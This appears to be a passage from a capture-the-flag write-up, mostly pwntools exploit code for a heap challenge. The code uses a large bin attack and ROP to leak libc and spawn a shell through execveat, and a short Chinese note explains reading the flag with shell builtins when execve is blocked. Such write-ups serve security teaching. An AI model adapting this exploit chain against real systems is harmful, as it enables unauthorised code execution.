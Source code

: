 ```python
    createBook(0x500)   # 4 place 2 in large bin and trigger large bin attack
                        # write a heap address on book
    # construct rop chain
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address
    editBook(b'0'*0x28 + flat(rdi, elf.got['puts'], elf.plt['puts'], elf.symbols['edit_the_book']))

    libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase

    gadgets = ROP(libc)
    rsi = gadgets.rsi.address
    rdx = gadgets.rdx.address # pop rdx; pop rbx; ret;
    rcx = gadgets.rcx.address
    r8 = libcBase + 0x1659e6
    # execveat(0, "/bin/sh", NULL, NULL, 0)
    sh.send(b'0'*0x28 + flat(rdi, 0, rsi, next(libc.search(b'/bin/sh')),
                             rdx, 0, 0, rcx, 0, r8, 0, libc.symbols['execveat']))

    sh.clean()
    sh.interactive()
```

{% note warning fa-exclamation %}
禁用了`execve`后，对于fork出来的程序也是有效的，因此后续不能使用`cat flag`来打印文件内容，
应使用

```sh
read FLAG < flag
echo $FLAG
```

来打印flag
{% endnote %}
